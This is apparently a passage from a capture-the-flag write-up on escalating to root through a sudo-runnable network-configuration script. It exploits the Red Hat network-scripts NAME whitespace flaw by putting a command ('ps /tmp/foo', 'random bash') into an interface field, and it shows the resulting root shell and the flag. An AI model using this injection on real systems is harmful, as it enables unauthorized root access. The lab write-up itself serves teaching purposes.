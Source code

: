 Since we only we only can read or execute `changename.sh`, we cannot replace `changename.sh`'s content by a malicious one.

Let's examine wath's in `changename.sh`:

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

- `/etc/sysconfig/network-scripts/ifcfg-guly`:

```bash
$ cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=ps /tmp/foo
PROXY_METHOD=asodih
BROWSER_ONLY=asdoih
BOOTPROTO=asdoih
```

The thing is, as mentionned on this website: [Redhat/CentOS root through network-scripts](https://seclists.org/fulldisclosure/2019/Apr/24), **incorrect whitespace filtering on the NAME attribute leads to code execution**.

## Root

```bash
$ sudo /usr/local/sbin/changename.sh
interface NAME:
random bash
interface PROXY_METHOD:
random
interface BROWSER_ONLY:
random
interface BOOTPROTO:
random
[root@networked network-scripts]# id            
id
uid=0(root) gid=0(root) groups=0(root)
[root@networked network-scripts]# cat /root/root.txt
cat /root/root.txt
0a8ecda83f1d81251099e8ac3d0dcb82
[root@networked network-scripts]# 
```
